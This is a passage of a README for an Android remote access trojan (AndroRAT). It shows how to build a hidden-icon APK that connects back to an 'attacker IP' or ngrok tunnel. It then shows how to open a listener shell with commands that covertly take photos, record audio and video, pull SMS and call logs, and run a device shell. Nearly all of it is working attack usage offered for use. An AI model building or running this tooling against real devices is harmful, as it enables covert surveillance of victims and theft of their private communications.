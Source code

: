 You can circumvent this by setting `core.longpaths` to `true`.

> git config --system core.longpaths true

You must run Git bash with administrator privileges. 

## Usage (Windows and Linux)

* To get the control panel of the app dial `*#*#1337#*#*` (For now it has only two options `Restart Activity` and `Uninstall`)
> Note: In order to use this feature in some devices you need to enable the option `display pop-up windows running in background` from the settings.

### Available Modes
* `--build` - for building the android apk 
* `--ngrok` - for using ngrok tunnel (over the internet)
* `--shell` - getting an interactive shell of the device

### `build` mode

```
Usage:
  python3 androRAT.py --build --ngrok [flags]
  Flags:
    -p, --port              Attacker port number (optional by default its set to 8000)
    -o, --output            Name for the apk file (optional by default its set to "karma.apk")
    -icon, --icon           Visible icon after installing apk (by default set to hidden)
```

```
Usage:
  python3 androRAT.py --build [flags]
  Flags:
    -i, --ip                Attacker IP address (required)
    -p, --port              Attacker port number (required)
    -o, --output            Name for the apk file (optional)
    -icon, --icon           Visible icon after installing apk (by default set to hidden)
```

Or you can manually build the apk by importing [Android Code](Android_Code) folder to Android Studio and changing the IP address and port number in [config.java](Android_Code/app/src/main/java/com/example/reverseshell2/config.java) file and then you can generate the signed apk from `Android Studio -> Build -> Generate Signed APK(s)`
### `shell` mode
```
Usage:
  python3 androRAT.py --shell [flags]
  Flags:
    -i, --ip                Listner IP address
    -p, --port              Listner port number
```
After running the `shell` mode you will get an interpreter of the device  

Commands which can run on the interpreter
```
    deviceInfo                 --> returns basic info of the device
    camList                    --> returns cameraID  
    takepic [cameraID]         --> Takes picture from camera
    startVideo [cameraID]      --> starts recording the video
    stopVideo                  --> stop recording the video and return the video file
    startAudio                 --> starts recording the audio
    stopAudio                  --> stop recording the audio
    getSMS [inbox|sent]        --> returns inbox sms or sent sms in a file 
    getCallLogs                --> returns call logs in a file
    shell                      --> starts a sh shell of the device
    vibrate [number_of_times]  --> vibrate the device number of time
```